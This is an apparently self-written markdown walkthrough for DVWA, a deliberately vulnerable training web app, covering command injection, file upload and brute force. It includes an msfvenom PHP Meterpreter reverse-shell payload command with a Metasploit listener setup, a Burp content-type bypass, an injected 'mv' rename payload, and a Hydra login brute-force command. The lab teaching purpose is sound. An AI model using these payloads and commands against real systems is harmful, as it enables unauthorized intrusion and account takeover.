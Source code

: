 # DVWA 

---------------------------

## Command Injection

Command injection let you perform commands on the textbox that is intended for another task such in this case, ping a host.

Connectors can be used here to add a command which will run with the action (or not) that this textbox is intended for:

![image](https://github.com/ELRame/HackingTools/assets/82544416/88a0d631-49be-4e91-afee-22850eccc81c)

Other connectors u can use are: **&&** **&** **;**

With this in mind, and changing the difficulty on DVWA you can take a look at the source code to see if there is some character escaped/blacklisted:

![image](https://github.com/ELRame/HackingTools/assets/82544416/d25a3f58-8f92-40e7-98db-784ea3507280)

---------------------------------

## File Upload

File upload allows you to upload a malicious file into the dvwa directory, with a reverse meterpreter connection, you will be able to run commands on it.

Run msfconsole and search for multi handler:

![image](https://github.com/ELRame/HackingTools/assets/82544416/5e93e9b8-42cf-445a-80c3-fb1750c094a6)

Select the number 30 with ````use 30```` (multi/handler) and set the payload as ````php/meterpreter/reverse_tcp````

![image](https://github.com/ELRame/HackingTools/assets/82544416/7e48c7ee-f1a0-4577-933c-d41c8c2290fc)

Then type ````show options```` to get the fields you need to fill, in this case LHOST, which can be set with ````set LHOST youripmachine```` that in this case is **127.0.0.1** (localhost) since we are running dvwa in the same machine

![image](https://github.com/ELRame/HackingTools/assets/82544416/dcbf1fde-19cd-404d-ae0e-bd91972b9b52)

After this you can create the payload for dvwa with **msfvenom** using the folloring command:

````
msfvenom -p php/meterpreter/reverse_tcp LHOST=youripmachine LPORT=4444 -f raw >malfile.php
````

![image](https://github.com/ELRame/HackingTools/assets/82544416/ea79972c-b9ef-4c1a-acf4-75a3adf10b85)

After this you can go to dvwa and upload the file, once uploaded, you have to go back to metasploit and run the command ````run```` or ````exploit```` in order to put it in listening state:

![image](https://github.com/ELRame/HackingTools/assets/82544416/9ba1a9da-0a65-46ae-b255-b11891429edd)

Now, on dvwa copy the path where the file was uploaded and put it in the url address:

![image](https://github.com/ELRame/HackingTools/assets/82544416/3eec3d74-ba1f-4f7d-ad0d-5f93f0e7a6e0)

After that, go to the url and the meterpreter session should be running:

![image](https://github.com/ELRame/HackingTools/assets/82544416/385b87cc-915d-466f-bc52-b132aec04276)

![image](https://github.com/ELRame/HackingTools/assets/82544416/cbd56dcc-72dd-4736-b78e-9e659f4a3f9e)

### Medium Difficulty

On medium, dvwa verify that the actual file is the type allowed, so for this we use burpsuite to intercept the traffic and change the type on the header before we forwarded to the browser.

First go to the extension you have for proxy and select the one you already (or you should) set up, in this case i named it BurpSuite:

![image](https://github.com/ELRame/HackingTools/assets/82544416/4d6e681e-dd19-4e64-8d92-2e4fc80afb50)

After that, on BuprSuite go to **proxy** manu and turn on the intercept option:

![image](https://github.com/ELRame/HackingTools/assets/82544416/1bbbdfdd-a2ef-4ec7-9748-e4e3b330ce05)

Then go to upload the file and press upload, this make burpsuite pop up with the header, find the **type** and change it for ````image/jpeg````, then click in the **forward** button:

![image](https://github.com/ELRame/HackingTools/assets/82544416/ad1f49b5-faa5-4a3e-96b7-fe3aba14750d)

![image](https://github.com/ELRame/HackingTools/assets/82544416/9e996c60-524d-4abe-b6b7-7e5f89c1dfb8)

Now just follow the same steps than the first example and you'll have a meterpreter session.

### Cmd injection and upload file

If you need to upload a file in this machine on high difficulty, you need to:

1.- Generate the payload.
2.- change the name of the file to one with jpeg extension.
3.- with nano, edit the file and add in the first line: ````GIF89a;````
4.- upload it.
5.- with command injection change the name of the file:

````
| mv "/usr/share/dvwa/hackable/uploads/exploit.php.jpeg" "/usr/share/dvwa/hackable/uploads/exploit.php"
````
6.- set up metasploit to listen.
7.- go to the file in the browser.

------------------------------------

## Brute Force

To brute force credentials on dvwa we are goin to use BurpSuite and also Hydra:

First set difficulty to low, go to bruteforce tab, and turno on your foxyproxy extension and Burpsuite intercept on, put any credentials and click on submit:

![image](https://github.com/ELRame/HackingTools/assets/82544416/24b4ebac-1eb5-4d3d-8425-e7f4475eb154)

Right click on burpsuite interception and choose sent to intruder. Once you get there, just clear the variables and select only the password:

![image](https://github.com/ELRame/HackingTools/assets/82544416/d9d65d86-e592-4f30-81f7-c14b9fdf7f56)

Then click on the payloads tab and load your wordlist:

![image](https://github.com/ELRame/HackingTools/assets/82544416/68262b59-3f3c-4213-8263-41cd39856f7f)

Click on Start attack and sort the information by asc length, the first one you found with different length, that's the password:

![image](https://github.com/ELRame/HackingTools/assets/82544416/a823c154-2bca-496a-9a40-9ba0f189a1b6)

And you are done

**Hydra**

````
hydra -l admin -P /usr/share/wordlists/john.lst 'http-get-form://127.0.0.1:42001/vulnerabilities/brute/:username=^USER
^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=CookieSession; security=low:F=Username and/or
password incorrect' -I
````

### High difficulty

Here we need to follow the same steps until we sent the interception to the intruder, there, we change the attack type to "PitchFork" and select as target both password and user_token field:

![image](https://github.com/ELRame/HackingTools/assets/82544416/0e63b203-9aa0-42dc-ba8e-81abd946413b)

Select the wordlist and after that change the set payload:

![image](https://github.com/ELRame/HackingTools/assets/82544416/b9fa4999-482e-477a-8df0-c7638ffb1020)

Now go to Setting tab and go to Grep Extract option and click on add, there click on fetch response and look for the token, select it and click in ok button:

![image](https://github.com/ELRame/HackingTools/assets/82544416/dc40bd3e-f1f8-4d48-91c4-a4c5767ca45b)

In Grep Match option click on clear button and then add "Incorrect"

![image](https://github.com/ELRame/HackingTools/assets/82544416/6b6f6f27-22e5-430f-98d2-fb1269ee4b46)

Set Redirection option to Always:

![image](https://github.com/ELRame/HackingTools/assets/82544416/559ec62c-f3c9-47c5-ade8-edc97e3c8692)

After that, go to Resource Pool, add a new pool and set the limit to 1 and click on start attack:

![image](https://github.com/ELRame/HackingTools/assets/82544416/7cdc21ae-d3ea-47c7-970d-1741e2e0e8e1)

After this, should have the pass:

![image](https://github.com/ELRame/HackingTools/assets/82544416/874b2e8b-637a-4a13-8116-54f8822ba545)
